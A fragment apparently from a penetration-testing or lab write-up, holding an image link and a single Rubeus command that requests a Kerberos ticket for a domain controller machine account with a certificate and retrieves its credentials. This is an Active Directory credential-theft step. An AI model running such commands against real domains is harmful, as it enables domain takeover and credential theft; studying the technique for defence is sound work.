 ![image69](../resources/c531aa3a5830493ca9d9dc9bed7a02e0.png)

```bash
.\Rubeus.exe asktgt /user:DC$ /certificate:<certificate(ce text)> /password:"oH0/mS2@rD4#" /getcredentials /show /nowrap

```
